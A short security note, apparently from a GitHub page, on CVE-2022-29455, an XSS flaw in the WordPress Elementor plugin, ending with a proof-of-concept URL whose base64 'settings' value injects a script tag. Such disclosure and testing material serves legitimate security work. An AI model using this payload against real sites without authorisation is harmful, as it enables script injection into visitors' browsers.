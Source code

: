 Wordpress - XSS ( CVE-2022-29455)

if path exist `/wp-content/plugins/elementor/assets/js/frontend.min.js`

`settings` parameter is vulnerable to xss. The value of `settings` parameter is base64 encoded

poc:
`https://site/#elementor-action:action=lightbox&settings=eyJ0eXBlIjoibnVsbCIsImh0bWwiOiI8c2NyaXB0PmFsZXJ0KCd4c3MnKTwvc2NyaXB0PiJ9Cg==`
